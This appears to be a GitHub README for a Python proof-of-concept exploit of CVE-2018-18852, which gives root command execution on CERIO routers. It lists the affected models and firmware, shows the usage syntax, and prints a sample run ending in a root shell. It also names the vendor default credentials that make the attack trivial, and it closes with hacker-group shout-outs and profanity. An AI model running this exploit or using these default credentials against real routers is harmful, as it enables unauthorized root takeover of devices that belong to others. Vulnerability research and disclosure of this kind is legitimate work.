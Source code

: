 # CERIO router Authenticated RCE (backdoor vendor creds) CVE-2018-18852 Python PoC
hook-s3c (github.com/hook-s3c), @hook_s3c on twitter

Working Python PoC for CVE-2018-18852, originally appearing on;
https://github.com/hook-s3c/CVE-2018-18852

## What's up

CERIO Router models and variants of, DT300N, DT100G, AMR-3204, WMR-200N are 
vulnerable to an authenticated web-based RCE as root user.

Exists as an 0day undisclosed advisory;
https://www.fortiguard.com/zeroday/FG-VD-18-149

Vendor default credentials are usually present, so execution is trivial.

Architecture is MIPS. 


### Usage and example

```
Usage: exploit.py <ipaddress> <port> <creds>
```

```bash

$ python ./exploit.py 127.0.0.1 8080 admin:admin

[*] ================================================
[*] CERIO RCE CVE-2018-18852, confirmed on;
[*] - CERIO DT-300N-NGS-M - fw: Pme-CPE-AP12X V1.0.3
[*] - CERIO DT-300N       - fw: Cen-CPE-N2H10A V1.0.14, Cen-CPE-N2H10A V1.1.6, Cen-CPE-N2H10A V1.1.7
[*] - CERIO DT-100G-N     - fw: Cen-AP-N2H10A V1.0.8
[*] - CERIO DT-100G       - fw: Cen-WR-G2H5 V1.0.7
[*] - CERIO DT-100GX-N    - fw: Cen-AP-N2H8A V1.0.18
[*] - CERIO AMR-3204G     - fw: Cen-AC V2.0.19
[*] - CERIO WMR-200N      - fw: Cen-HS-N2H1 V1.0.6c Test
[*]
[/] by hook (@hook_s3c) https://github.com/hook-s3c/CVE-2018-18852
[/] Greetz to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, 
[/] The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
[/] Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up
[*] ================================================

root@cerio:~# id
[!] This may not be the right model (DT-300N-NGS-M), trying again
[+] Sucessfully grabbed pid token: 1312


uid=0(root) gid=0(root)

root@cerio:~# 

```

### Default cred combos;

- operator:1234
- admin:admin
- root:default

## Greetz

Shoutout to vap0rsquad, ThugCrowd, $noHat$, r0bl0xgang, Udderly Amoosing, illmob, The Many Hats Club, Cyber.Phunk, WAC, SHAM, 0x00sec, John McAfee
Go cop YTCracker's Introducing Neals, gov overreach is no joke - wake the fuck up

HTP!!!! YEET
